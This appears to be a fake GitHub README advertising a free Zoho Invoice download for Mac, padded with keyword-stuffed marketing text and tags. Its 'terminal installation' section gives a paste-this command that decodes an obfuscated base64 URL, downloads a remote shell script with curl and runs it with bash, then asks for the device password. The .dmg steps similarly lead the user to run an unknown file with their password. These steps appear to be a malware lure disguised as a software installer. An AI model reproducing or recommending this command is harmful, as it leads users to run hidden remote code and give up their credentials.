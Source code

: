 # Zoho Invoice for Mac — Free Download 🧾
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/0a/5d/4b/0a5d4be8-753e-0be3-56c1-4a4b1990c516/AppIcon-0-2x_U007euniversal-0-0-0-5-0-0-0-85-220-0.png/1200x630bb.png)

Easily download and install Zoho Invoice for Mac OS to streamline your invoicing and billing tasks. Follow the step-by-step guide below to set up this powerful invoicing software for free!

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/zohoinvoice)

If the download button doesn't work, follow the terminal instructions below for a seamless installation.

## 📦 How to Install Zoho Invoice for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Zoho Invoice

- 🧾 **Create Professional Invoices**: Design and send polished invoices with customizable templates to impress your clients.
- ⏰ **Track Time Effortlessly**: Monitor billable hours with built-in time tracking for accurate invoicing.
- 💸 **Manage Payments Seamlessly**: Accept payments via multiple gateways like PayPal, Stripe, and more.
- 📊 **Generate Financial Reports**: Gain insights into your business with detailed reports on revenue and expenses.
- 🔄 **Automate Recurring Billing**: Set up automated invoicing for subscriptions or recurring clients.
- 🌐 **Multi-Currency Support**: Invoice clients globally with support for multiple currencies.

## About Zoho Invoice

Zoho Invoice is a robust invoicing software tailored for freelancers, small businesses, and entrepreneurs who need a reliable tool to manage their billing processes. With its intuitive interface, Zoho Invoice allows users to create professional invoices in minutes, ensuring that your business maintains a polished and professional image. The software is designed to integrate seamlessly with other Zoho products, making it an excellent choice for those already using Zoho’s ecosystem for CRM, accounting, or project management. By leveraging keywords like **Zoho Invoice free download**, **invoicing software for Mac**, and **free billing tool**, Zoho Invoice ensures that users can easily find and adopt this solution for their financial workflows.

One of the standout features of Zoho Invoice is its time-tracking capability, which is essential for freelancers and consultants who bill clients based on hours worked. By incorporating **free invoicing software** and **Mac-compatible billing tools** into its framework, Zoho Invoice simplifies the process of tracking billable hours and converting them into invoices. The software also supports automation, allowing users to set up recurring invoices for regular clients, saving time and reducing manual work. This feature is particularly useful for businesses looking to optimize their invoicing process without investing in expensive tools.

Security and reliability are at the core of Zoho Invoice’s design. The software ensures that your financial data is protected with robust encryption, making it a safe choice for businesses handling sensitive client information. With **Zoho Invoice for Mac** and **free business invoicing**, users can trust that their data is secure while enjoying a seamless experience on their Mac devices. The ability to integrate with popular payment gateways like PayPal and Stripe further enhances its appeal, allowing businesses to collect payments quickly and efficiently.

Zoho Invoice also offers powerful reporting tools that provide insights into your business’s financial health. Whether you’re tracking revenue, expenses, or overdue payments, the software’s reporting features make it easy to stay on top of your finances. By incorporating **download Zoho Invoice free** and **Mac invoicing software** into its functionality, Zoho Invoice ensures that users can access these features without needing to navigate complex setups or paywalls. This accessibility makes it an ideal choice for small businesses looking to streamline their operations.

### Advantages of Zoho Invoice

Zoho Invoice stands out due to its user-friendly design, affordability, and comprehensive feature set. Unlike other invoicing tools that may require steep learning curves or costly subscriptions, Zoho Invoice offers a free tier that includes essential features for small businesses. Its seamless integration with Mac OS ensures smooth performance, while its support for **Zoho Invoice free download for Mac** and **business invoicing software** makes it highly discoverable for users searching for reliable invoicing solutions. With automation, multi-currency support, and robust reporting, Zoho Invoice empowers businesses to manage their finances efficiently while maintaining a professional image.

## 🖼 Preview

![Invoice Creation](https://www.zoho.com/books/features/images/invoicing/send-professional-invoices@1x.png)
*Creating a professional invoice with customizable templates.*

![Time Tracking](https://www.zoho.com/invoice/home/features/dashboard-2x.png)
*Tracking billable hours with ease.*

![Payment Gateway](https://www.zoho.com/invoice/help/images/dashboard/dashboard.png)
*Seamless payment collection with multiple gateways.*

## 🔍 Tags

zoho invoice software, zoho invoice, Zoho Invoice free download, invoicing software for Mac, Zoho Invoice for Mac, zoho invoice free, zoho invoice generator, invoice generator zoho, zoho invoice app, zoho invoice download, zoho invoice free, zoho invoice download free, free zoho invoice download, zoho invoice for mac, zoho invoice mac os 
